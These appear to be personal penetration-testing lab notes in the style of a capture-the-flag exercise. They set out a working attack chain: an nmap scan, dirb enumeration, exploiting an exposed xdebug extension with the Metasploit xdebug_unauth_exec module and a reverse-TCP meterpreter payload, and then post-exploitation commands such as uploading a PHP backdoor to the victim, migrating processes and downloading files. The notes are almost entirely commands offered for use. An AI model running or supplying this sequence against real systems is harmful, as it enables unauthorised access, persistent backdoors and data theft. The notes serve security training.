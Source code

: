 - nmap -sS -sV 192.189.123.3
- : dirb http://192.189.123.3
	- found /phpinfo.php
- : curl http://192.189.123.3/phpinfo.php
- The xdebug extension is enabled on target server. We can exploit it using exploit/unix/http/xdebug_unauth_exec metasploit module.
	- Command: msfconsole use 
	- exploit/unix/http/xdebug_unauth_exec 
	- set RHOSTS 192.189.123.3 
	- set LHOST 192.189.123.2 
	- set PATH /phpinfo.php
	- set payload php/meterpreter/reverse_tcp
	- exploit
- we can also exploit xoda vulnerability 

---------------------------

meterpreter commands lab

- download /app/file
- checksum md5 /bin/bash (Meterpreter)
- md5sum /bin/bash (get hash in Linux)
- unzip flag5.zip
- cd "Secret Files"
- shell (if you want to write linux command)
	- echo $PATH
- getenv PATH (Meterpreter)
- search -d /usr/bin -f *ckdo*
- lcd tools
- lpwd
	- /root/tools
- upload /usr/share/webshells/php/php-backdoor.php (upload shell to victim machine)
- background (make session into background)
- sessions -h (get help menu)
- edit flag.txt (edit file)
- ps (will get process tree)
	- migrate 580 (example into migrating to a process)
- showmount
- 

